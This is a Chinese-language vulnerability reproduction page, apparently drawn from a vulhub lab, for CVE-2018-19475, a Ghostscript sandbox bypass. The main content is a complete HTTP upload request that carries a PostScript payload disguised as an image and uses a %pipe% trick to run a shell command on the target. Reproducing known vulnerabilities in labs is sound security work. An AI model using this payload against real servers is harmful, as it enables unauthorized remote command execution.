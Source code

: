 # CVE-2018-19475 GhostScript 沙箱绕过（命令执行）漏洞

### 一、漏洞简介

`./psi/zdevice2.c`文件存在安全特征问题漏洞。该漏洞是源于网络系统或产品中缺少身份验证、访问控制、权限管理等安全措施。

### 二、漏洞影响

Ghostscript 9.26之前版本

### 三、复现过程

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success：`


```bash
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO
Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
content-Type="image/png"

%!PS
0 1 300367 {} for
{save restore} stopped {} if
(%pipe%id > /tmp/success && cat /tmp/success) (w) file
------WebKitFormBoundaryukZmnyhO--
```

命令已成功执行：

![](images/15890286197786.png)


参考链接

https://vulhub.org/#/environments/ghostscript/CVE-2018-19475/